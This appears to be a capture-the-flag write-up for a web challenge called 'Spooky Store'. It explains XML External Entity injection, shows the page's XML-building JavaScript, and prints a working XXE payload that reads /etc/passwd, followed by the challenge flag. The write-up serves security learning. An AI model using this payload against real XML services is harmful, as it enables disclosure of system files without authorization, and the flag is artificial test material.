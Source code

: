 Spooky Store
=====

## Category: Web

> "It's a simple webpage with 3 buttons, you got this :)"

## Methodology
This webpage contains a vulnerability known as XXE, or XML External Entity injection. I'll admit I am no web pwner, but this one was interesting and fun (and relatively easy). If I can solve this one, nearly anyone can. 

## Reconnaissance
First thing we want to do is try to understand the attack surface. After probing around the website we can see where the injection should take place in the javascript below.

![webpage](img/webpage.png)

```javascript
window.contentType = 'application/xml';

function payload(data) {
    var xml = '<?xml version="1.0" encoding="UTF-8"?>';
    xml += '<locationCheck>';

    for(var pair of data.entries()) {
        var key = pair[0];
        var value = pair[1];

        xml += '<' + key + '>' + value + '</' + key + '>';
    }

    xml += '</locationCheck>';
    return xml;
}
```

## The exploit

I ended up firing up burpsuite and intercepting eveything going to through this webpage. Anytime I would click on one of the buttons, an XML sheet would be generated. In order to exploit this, you basically had to inject the textbook definition of XXE into the XML sheet and then forward the request.


```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<locationCheck><productId>&xxe;</productId></locationCheck>
```

![flag](img/flag.png)

> utflag{n3xt_y3ar_go1ng_bl1nd}
